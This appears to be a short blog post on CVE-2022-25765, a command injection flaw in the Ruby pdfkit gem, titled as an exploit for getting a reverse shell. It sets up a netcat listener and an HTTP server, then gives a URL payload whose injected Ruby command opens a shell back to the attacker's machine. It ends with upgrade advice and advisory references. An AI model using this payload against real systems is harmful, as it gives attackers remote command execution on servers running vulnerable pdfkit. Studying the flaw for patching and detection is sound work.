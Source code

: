 ```yaml
---
title: CVE-2022-25765 pdfkit
author: "d_captain"
date: 2022-08-08 11:33:00 +0800
categories: [CVE]
tags: [shell, rce, pdfkit, poc]
math: true
mermaid: true
image:
  path: /assets/img/posts/pdfkit.jpeg
  alt: source (https://www.bio-logical-it.com/).
---
```


# pdfkit-Exploit-Reverse-Shell

All < 0.8.6 versions of this package are vulnerable to Command Injection where the URL is not properly sanitized.

---


## Severity

> Critical 9.8/10
{: .prompt-danger }

 

## Note
This issue was originally addressed in 0.8.7, but the fix was not complete. A complete fix was released in 0.8.7.2.


## Pre-requisites setup

HTTP Server
: - python3 -m http.server 9090

Netcat Listener
: - nc -lvnp 4444


### Reverse Ruby shell

```bash
http://LOCAL-IP:9090/?name=%20`ruby -rsocket -e'spawn("sh",[:in,:out,:err]=>TCPSocket.new("LOCAL-IP",4444))'`
```


##  How to fix?

Upgrade pdfkit to version `0.8.7.2` or higher.



## Reference

[**https://nvd.nist.gov/vuln/detail/CVE-2022-25765**](https://nvd.nist.gov/vuln/detail/CVE-2022-25765)

[**https://security.snyk.io/vuln/SNYK-RUBY-PDFKIT-2869795**](https://security.snyk.io/vuln/SNYK-RUBY-PDFKIT-2869795)

